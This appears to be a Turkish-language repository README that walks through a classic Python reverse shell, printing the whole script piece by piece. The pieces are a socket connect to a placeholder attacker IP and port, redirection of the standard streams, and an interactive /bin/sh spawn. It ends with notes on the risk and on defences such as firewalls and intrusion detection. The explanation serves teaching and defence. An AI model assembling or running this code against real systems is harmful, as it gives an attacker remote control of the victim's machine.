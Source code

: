    <a href="https://www.php.net" target="_blank" rel="noreferrer"> 
        <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/php/php-original.svg" alt="php" width="40" height="40"/> 
    </a> 
       <a href="https://www.python.org" target="_blank" rel="noreferrer"> 
        <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" alt="python" width="40" height="40"/> 
    </a> 
    <br>
(Kötü Niyetli Kullanılabilecek)Bir ters kabuk (reverse shell) bağlantısı kurmayı hedeflemektedir. İşte adım adım kodun ne yaptığını açıklayan bir rapor: 

1. Giriş
Kod, hedef bilgisayarda çalıştırıldığında, saldırganın kontrol ettiği bir makineye bağlantı kurarak bir komut kabuğu (shell) açar ve saldırganın bu kabuk üzerinden hedef bilgisayarı kontrol etmesine olanak tanır. Bu tür saldırılar genellikle yetkisiz erişim sağlamak ve sistemde kötü niyetli komutlar çalıştırmak için kullanılır.

2. Kod Analizi
2.1. Modül İçe Aktarma
   
import socket, subprocess, os
socket: Ağ bağlantıları kurmak için kullanılır.
subprocess: Yeni süreçler oluşturmak ve komutlar çalıştırmak için kullanılır.
os: İşletim sistemi ile ilgili işlevleri yerine getirmek için kullanılır.
2.2. Soket Oluşturma

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
socket.AF_INET: IPv4 adres ailesini kullanır.
socket.SOCK_STREAM: TCP bağlantı türünü kullanır.
2.3. Bağlantı Kurma

s.connect(("SALDIRI_HEDEF_IP", SALDIRI_HEDEF_PORT))
s.connect(): Saldırganın IP adresi (SALDIRI_HEDEF_IP) ve port numarası (SALDIRI_HEDEF_PORT) belirtilerek saldırganın kontrolündeki makineye bağlanılır.
2.4. Dosya Tanıtıcılarının Yönlendirilmesi

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.dup2(): Hedef makinedeki standart giriş (stdin), standart çıkış (stdout) ve hata çıkışı (stderr) dosya tanıtıcıları, soket dosya tanıtıcısına (s.fileno()) yönlendirilir. Bu, saldırganın komutları doğrudan terminal üzerinden yürütmesine olanak tanır.
2.5. Kabuk Başlatma

p = subprocess.call(["/bin/sh", "-i"])
subprocess.call(): Yeni bir süreç başlatarak /bin/sh kabuğunu interaktif modda (-i) çalıştırır.
3. Özet
Amaç: Hedef bilgisayarda çalışan bu betik, saldırganın belirlediği bir IP ve port üzerinden bağlantı kurar ve hedef bilgisayarda bir komut kabuğu açar.
Fonksiyonellik: Saldırgan, bu bağlantı üzerinden hedef bilgisayara komutlar gönderebilir ve bu komutların çıktısını alabilir.
Güvenlik Riski: Bu tür ters kabuk bağlantıları, yetkisiz erişim ve kötü niyetli etkinlikler için kullanıldığından, ciddi bir güvenlik riski oluşturur. Bu nedenle, sistemlerin bu tür saldırılara karşı korunması ve şüpheli etkinliklerin izlenmesi önemlidir.
4. Sonuç
Bu tür saldırılar, sistem güvenliği açısından ciddi tehditler oluşturur ve bunlara karşı korunmak için güvenlik duvarları, izinsiz giriş tespit sistemleri (IDS), ve düzenli güvenlik taramaları gibi önlemler alınmalıdır.

